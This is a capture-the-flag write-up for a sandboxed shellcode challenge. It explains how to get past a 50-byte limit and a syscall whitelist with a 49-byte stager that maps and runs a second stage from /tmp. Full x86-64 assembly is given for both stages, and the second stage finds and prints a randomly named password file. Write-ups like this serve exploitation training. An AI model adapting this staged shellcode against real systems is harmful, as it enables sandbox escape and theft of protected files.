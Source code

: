 **Challenge Overview**

In this challenge, the user is prompted by the program to enter shellcode that
the program will then execute. Two major obstacles must be overcome in order
to do this. The first obstacle is the limited subset of syscalls that are
permitted (and hence, this challenge is a sandbox challenge). The second is the
size limitation on the size of the shellcode that can be input.

We need to gain access to the flag in the password file; however, everytime the
vulnerable program is run, the name of the password file is changed to a random
string of characters (and the file is within a directory, the contents of which
we cannot view). This necessitates creating shellcode that is not as simple as
simply opening a known filename and printing the contents to standard output.
We must open the directory and then read the filename from its directory entry.
Thankfully, this is at least simplified by the fact this is the only file within
the directory.

All of this means the shellcode necessary to complete the challenge is a lot
longer than the limit, which is 50 bytes.

We can read the contents of the shell script that is automatically run when
we start the vulnerable program:

```
#!/bin/sh

PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
CHALLENGE_PATH="$(dirname ${0})"

cd $CHALLENGE_PATH

UUID=$(tr -dc A-Za-z0-9 < /dev/urandom | head -c 32)

chmod 700 passwd/
mv passwd/.passwd_* "passwd/.passwd_${UUID}"
chmod 400 passwd/.passwd_*
chmod 500 passwd/

timeout -k 2m 1m ./p-sandbox ./ch10
```

We are only permitted to use the following system calls:

`read, write, exit, brk, mmap, access, open, fstat, close, mprotect,
munmap, arch_prctl, exit_group, getdents`

In order to complete the challenge, we must divide our shellcode into
two phases. The second phase of our shellcode will be kept in a file
that we put into some private directory we create in /tmp. That leaves
the first phase, which becomes as simply as creating a memory mapped
region into which the contents of our known file will be read. We then
change the permissions of this memory mapped region to be executable
and then use a JMP instruction to jump to the start of this region, thus
executing the second phase of our shellcode. Therefore, we have bypassed
the restriction of 50 bytes and our shellcode can be as long as we wish.

All of this uses only the restricted subset of system calls in the sandbox.

**Phase one of our exploit**

  - _Open file with phase two_
  - _Map the contents into memory, with the permission set
    (PROT_READ|PROT_WRITE|PROT_EXEC)_
  - _Pass execution to it_

The total size of this part of the exploit is 49 bytes, thus within the
size limitation of the sandbox.

**Phase two of our exploit**

  - _Open the "passwd" directory (pass O_DIRECTORY flag to open())_
  - _Read the directory entries onto the stack using sys_dirents_
  - _Push "passwd/" onto the stack and then append the obtained filename to it_
  - _Open the password file_
  - _Read contents onto stack_
  - _Print contents to stdout_

The size of this part of the exploit is 161 bytes, itself well over the size
limitation. The total size of the exploit is therefore 210 bytes.


**Assembly code for part I of the exploit**

```
.section .rodata

.equ SYS_MMAP,9
.equ PROT,0x7
.equ FLAGS,0x2

.globl _start

_start:
	mov $0x63732f706d742f,%rdi
	push %rdi
	mov %rsp,%rdi
	push $2
	pop %rsi
	push $2
	pop %rax
	syscall
	mov %rax,%r8
	xor %rdi,%rdi
	movb $131,%sil
	push $0
	pop %r9
	push $PROT
	pop %rdx
	push $FLAGS
	pop %r10
	push $SYS_MMAP
	pop %rax
	syscall
	call *%rax
```
  
**Assembly code for part II of the exploit**

```
.section .rodata

.equ SYS_READ,0
.equ SYS_WRITE,1
.equ SYS_OPEN,2
.equ SYS_EXIT,60
.equ SYS_GETDENTS,78
.equ O_DIRECTORY,0200000
.equ OFLAGS,0x242

.globl _start

_start:
	mov $0x647773736170,%rdi
	push %rdi
	mov %rsp,%rdi
	push $O_DIRECTORY
	pop %rsi
	push $SYS_OPEN
	pop %rax
	syscall
	mov %rax,%rdi
	mov %rsp,%rsi
	mov $255,%dl
	push $SYS_GETDENTS
	pop %rax
	syscall

	add $42,%rsp
	mov %rsp,%rsi
	sub $0x200,%rsp
	push $42
	pop %rcx
	mov $0x2f647773736170,%rdi
	push %rdi
	add $7,%rsp
	mov %rsp,%rdi
.mloop:
	movb (%rsi),%al
	movb %al,(%rdi)
	inc %rsi
	inc %rdi
	dec %rcx
	jne .mloop

	mov $0,%rax
	movb %al,(%rdi)

	mov $1,%rsi
	dec %rsi
	mov $2,%rax
	sub $7,%rsp
	mov %rsp,%rdi
	syscall
	mov %rax,%rdi
	sub $0x100,%rsp
	mov %rsp,%rsi
	push $64
	pop %rdx
	push $SYS_READ
	pop %rax
	syscall

	push $1
	pop %rdi
	push $0x800
	pop %rdx
	mov %rsp,%rsi
	push $SYS_WRITE
	pop %rax
	syscall
```
